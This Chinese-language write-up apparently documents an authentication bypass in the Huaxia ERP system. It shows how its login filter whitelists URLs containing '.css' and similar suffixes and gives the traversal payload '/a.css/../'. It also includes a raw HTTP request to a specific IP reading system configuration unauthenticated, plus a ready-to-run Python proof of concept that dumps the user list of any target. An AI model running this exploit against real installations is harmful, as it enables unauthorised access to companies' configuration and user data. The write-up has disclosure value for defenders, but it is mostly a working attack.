



## 华夏ERP授权绕过漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为授权绕过漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

该项目利用filter做登录判断

```
com.jsh.erp.filter.LogCostFilter
```



其中值得关注的是ignoredList，如果url中存在ignoredList则不需要认证。

我们去寻找ignoredList，发现它在同一文件内，如下：



可以看到匹配的值为：

```
.css#.js#.jpg#.png#.gif#.ico
```

那么绕过认证的payload我们就可以随便写了，如下：

```
/a.css/../
```

如未登录查看系统配置：




以上数据都为测试生成的数据，为虚假数据，如有雷同纯属巧合

```
GET /a.css/../systemConfig/list?search=%7B%22companyName%22%3A%22%22%7D¤tPage=1&pageSize=10 HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/manage/systemConfig.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

来个POC吧，验证起来方便

使用方式：

```
python3 华夏erp未授权.py http://ip:port
```

源码：

```python
import sys,requests
def main(ip):
    url = "{ip}/a.css/../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
'''
```

